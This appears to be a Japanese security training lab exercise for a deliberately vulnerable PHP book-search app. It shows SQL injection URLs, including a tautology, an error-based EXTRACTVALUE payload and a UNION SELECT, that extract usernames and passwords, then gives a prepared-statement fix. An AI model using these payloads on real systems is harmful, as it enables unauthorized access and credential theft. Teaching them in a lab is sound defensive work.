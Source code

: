 ## 演習

### アプリケーションの起動

以下のコマンドをターミナルで実行してみましょう。

```bash
docker-compose up
```

### アプリケーションの概要

このアプリケーションでは`search.php`の後に`?author=example`のような形で著者名による書籍データベース検索をします。
authorのパラメータに設定された文字列をそのままチェック等一切なしでSQL文に組み込んでいるため、SQLインジェクションができてしまいます。

正常な実行結果の例としては`https://<擬似ブラウザに表示されているドメイン>//search.php?author=Atabasca`を実行してみてください。

### 攻撃

1. `https://<擬似ブラウザに表示されているドメイン>/search.php?author='+OR+'a'='a` というURLでauthorパラメータを設定してアクセスする。
2. 実行された結果として、著者名に関係なく書籍データベースが取得できてしまう。
3. `https://<擬似ブラウザに表示されているドメイン>//search.php?author='+AND+EXTRACTVALUE(0,(SELECT+CONCAT('$',username,':',password)+FROM+users+LIMIT+0,1))+%23`というURLで同様にアクセスする。
4. 実行された結果、エラーメッセージとして`Unknown XPATH variable at: '$guest:...'`という形で、同じデータベースの別のテーブルとして入っているusername/passwordの組を取得できてしまう。
5. `https://<擬似ブラウザに表示されているドメイン>//search.php?author='+UNION+SELECT+username,password,NULL,NULL+FROM+users--+%60`というURLで同様にアクセスする。
6. 今度はテーブルの「ID」の欄にusername、「タイトル」の欄にpasswordが表示される形でテーブルusersの内容全部が取得できてしまう。

### 攻撃の対策

search.phpをプレースホルダを使うように書き換えることで脆弱性をなくすことができます。具体的には最初のデータベースをアクセスする部分は以下のように書き換えます。

```php
<?php
    session_start();
    header("X-XSS-Protection: 0;");
    $author = $_GET['author'];
    try {
        $options = array(PDO::ATTR_ERRMODE => PDO::ERRMODE_EXCEPTION,
            PDO::MYSQL_ATTR_MULTI_STATEMENTS => false,
            PDO::ATTR_EMULATE_PREPARES => false);
        $dbname = 'mysql:host=' . $_ENV['DATABASE_HOST'] . ';dbname=sampledb;charset=utf8mb4';
        $dbh = new PDO($dbname, 'root', '', $options);
        $sqlcode = "SELECT * FROM booklist WHERE author = ? ORDER BY id";
        $result = $dbh->prepare($sqlcode);
        $result->bindValue(1, $author, PDO::PARAM_STR);
        $result->execute();
?>
```
